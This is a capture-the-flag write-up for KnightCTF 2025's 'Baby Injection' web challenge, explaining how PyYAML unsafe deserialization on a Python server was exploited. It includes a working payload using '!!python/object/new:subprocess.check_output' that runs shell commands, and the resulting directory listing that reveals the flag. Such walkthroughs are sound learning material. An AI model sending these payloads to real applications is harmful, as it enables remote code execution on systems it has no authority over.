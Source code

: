 ```yaml
---
title: "Baby Injection"
description: "Sometimes, seemingly harmless configuration files can do more than they appear. Can you uncover a hidden flaw and turn it to your advantage?"
pubDate: 2025-01-22
ctf: "KnightCTF 2025"
category: "web"
author: "sealldev"
section: "CTFs"
image: "images/25-knight/icon.png"
---
```


> Original Writeup on [seall.dev](https://seall.dev/posts/knightctf2025#baby-injection)

We are given a webserver which displays some text and has a base64 string at the end:
`http://172.105.121.246:5990/eWFt...`

Decoding that string we see the following:

```
yaml: <text here>
```

This seems to be some sort of YAML injection, so let's look at what the server is running with.

The webserver is running with **Python** according to the headers in the response (no screenshot sorry, it was very clear I promise).

Looking at [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/Python.md#pyyaml) there is a section for a library called `PyYAML`.

I try a basic payload: `!!python/object/apply:builtins.range [1, 10, 1]`.

The server response is `range(1,10)`, perfect!!

I try an RCE to list the files in the current directory: `yaml: !!python/object/new:subprocess.check_output [['ls', '-la']]`.

The webserver responds with the following (thanks to `abl` for supplying the response post CTF):

```
[{&#39;test&#39;: {b&#34;total 32\ndrwxr-xr-x 1 root root 4096 Jan 21 01:22 .\ndrwxr-xr-x 1 root root 4096 Jan 20 21:15 ..\n-rw-r--r-- 1 root root  500 Jan 20 21:08 Dockerfile\n-rw-r--r-- 1 root root    0 Jan 20 22:56 KCTF{d38787fb0741bd0efdad8ed01f037740}\n-rw-r--r-- 1 root root    0 Jan 20 22:56 Why didn&#39;t they set this as read only\n-rw-r--r-- 1 root root    0 Jan 20 22:56 a\n-rw-r--r-- 1 root root   86 Jan 20 22:43 a.txt\ndrwxr-xr-x 3 root root 4096 Jan 20 21:13 app\n-rw-r--r-- 1 root root    0 Jan 21 00:34 hey.txt\n-rw-r--r-- 1 root root   27 Jan 20 20:59 requirements.txt\n-rwxr-xr-x 1 root root  128 Jan 20 21:15 start.sh\ndrwxr-xr-x 2 root root 4096 Jan 21 01:23 static\n-rw-r--r-- 1 root root    0 Jan 20 22:56 what if someone overwrite the flag??\n-rw-r--r-- 1 root root    0 Jan 20 23:04 zab.txt\n&#34;: None}}]
```

This contains the flag!

Flag: `KCTF{d38787fb0741bd0efdad8ed01f037740}`
